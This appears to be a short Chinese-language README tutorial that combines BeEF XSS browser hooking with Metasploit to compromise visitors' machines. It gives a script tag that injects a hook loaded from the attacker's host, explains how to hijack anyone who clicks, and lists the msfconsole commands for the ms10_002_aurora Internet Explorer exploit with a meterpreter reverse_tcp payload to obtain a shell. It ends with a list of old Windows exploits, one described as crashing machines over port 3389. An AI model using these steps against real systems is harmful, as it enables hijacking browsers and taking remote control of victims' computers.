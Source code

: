 # beef-xss
## XSS反弹
`<script> alert("hello XSS")</script>` 
## beef-xss 和 msf框架 组合
### 环境要求：
一台kali: 192.168.200.1
### 劫持
运行beef
`cd /use/share/beef-xss` \
`./beef` \
会出现一个攻击地址和一个管理地址 \
`192.168.200.1:3000/hoos.js` /攻击地址 \
`<script>src="192.168.200.1:3000/hoos.js"</script>` /上传这个，有人点击，你就可以通过beef管理进行劫持 \
`192.168.200.1:3000/ui/panwl` /管理地址，账号密码都是beef \
里面有一个是redirect选项是网站劫持，这个配合msf IE漏洞，很好用
### 漏洞利用
`msfconsole` /运行msfconsole \
`use windows/browser/ms10_002_aurora` /使用模块 \
`set PAYLOAD windows/meterpreter/reverse_tcp` /设置攻击载荷 \
`show options` /显示设置参数 \
`set SRVHOST 192.168.200.1` /制作的网站地址 \
`set SRVPORT 7777` /制作的连接的端口 \
`set URIPATH /` /运行的环境目录 \
`set LHOST 192.168.200.1` /侦听的地址 \
`set LPORT 4444` /映射到的地址 \
`run` /制作 \
将生产的网址通过劫持网站访问，就可以拿到meterpreter,即拿到shell
### IE漏洞
ms10_018 \
ms10_046 \
ms12_004 \
ms08_067 /比较老的入侵漏洞 \
ms12_020 /通过3389，搞蓝屏 \
